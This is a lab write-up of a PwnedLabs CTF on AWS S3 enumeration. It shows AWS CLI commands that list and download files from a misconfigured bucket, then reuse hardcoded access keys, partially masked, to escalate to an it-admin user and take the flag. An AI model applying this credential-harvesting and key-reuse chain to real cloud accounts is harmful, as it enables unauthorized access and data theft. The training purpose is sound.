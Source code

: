 ```yaml
---
title: Lab Writeup - AWS S3 Basics
layout: post
date: 2025-06-23
categories: [Writeups, PwnedLabs]
tags: [Cloud, CTF, AWS]
author: bailee
toc: true
description: Examine a website found in a phished employee’s bookmarks, and gain access to privileged company data in a S3 bucket. 
---
```

Lab Platform:
: [PwnedLabs](https://pwnedlabs.io/labs/aws-s3-enumeration-basics)

---
## Tools & Commands

### Tools Used
- AWS CLI

### Commands
- `aws sts get-caller-identity`
  - The ‘whoami’ of AWS CLI, shows ARN of the user, including AWS Account ID.
- `aws s3 ls s3://<s3-name>`
  - List out the contents of a S3 bucket, and the directories within it.
- `aws s3 cp s3://<s3-name>`
  - Copy/download the specified file, use . at the end to ‘cat’ it to the screen

---

## Lab Walkthrough

### Enumeration & Initial Access 
Viewing the source of the website, we see a reference to `https://s3.amazonaws.com/dev.huge-logistics.com`

![image.png](assets/img/s3EnumerationBasics/image.png)

Looks like it at least has a static .png & CSS file in there.

We can try to navigate to just `https://s3.amazonaws.com/dev.huge-logistics.com/`, but we get an ‘access denied’ error.

![image.png](assets/img/s3EnumerationBasics/image1.png)

This is likely because we don’t have access to that bucket directory because of a policy.

Using the URL modifiers `prefix=` and `delimeter=/` in the URL request, it will output common prefixes that can be added to the end of the URL (like how we saw static/). Some interesting ones I’m seeing is admin/ and migration-files/.

![image.png](assets/img/s3EnumerationBasics/image2.png)

Using the CLI, we can attempt to list directories of the S3 bucket without signing in (the `--no-sign-request` modifier.) I want to go straight to the admin folder, since it looks fun.

```
# aws s3 ls s3://dev.huge-logistics.com/admin/
2023-10-16 09:08:38          0
2024-12-02 07:57:44         32 flag.txt
2023-10-16 14:24:07       2425 website_transactions_export.csv
```

Oo, give me that flag please.

```
# aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt -
download failed: s3://dev.huge-logistics.com/admin/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```

:( Guess we don’t have permission to access it. What else can we do?

After poking around, I found the shared/ directory has a file called h1_migration_project.zip. I downloaded it using ‘aws s3 cp’ and found hardcoded AWS keys, which looks like it’s used for the AWS Secrets Manager service.

```
#AWS Configuration
$accessKey = "AKIA*******WOWKXEHU"
$secretKey = "MwGe3leV*******************FiG83RX/gb9"
$region = "us-east-1"
```

### Privilege Escalation

I used ‘aws configure’ to add the access & secret keys, after using `aws sts get-caller-identity`, I see I now have the role called pam-test.

```
# aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}
```

Pam-test has more access to the S3 directories, including /migration-files.

```
# aws s3 ls s3://dev.huge-logistics.com/migration-files/
2023-10-16 09:08:47          0
2023-10-16 09:09:26    1833646 AWS Secrets Manager Migration - Discovery & Design.pdf
2023-10-16 09:09:25    1407180 AWS Secrets Manager Migration - Implementation.pdf
2023-10-16 09:09:27       1853 migrate_secrets.ps1
2023-10-16 12:00:13       2494 test-export.xml
```
### Exfiltration

The most interesting file here is ‘migrate_secrets.ps1’. I used the command `# aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml -` to print the command to the command prompt screen. And there are more sets of credentials! One of them is for an ‘AWS IT Admin’.

```
  <!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>AKIA3SFM*****RFWFGCD</AccessKeyID>
        <SecretAccessKey>t21ERPmDq5C***********0bnL4hY6jP</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
```

Again, I used ‘aws configure’ to add the new access & secret key, and now we are an it-admin.

```
# aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOWKM6ICH4K",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/it-admin"
}
```

Immediately, I used the same command as before to get the flag, and it worked!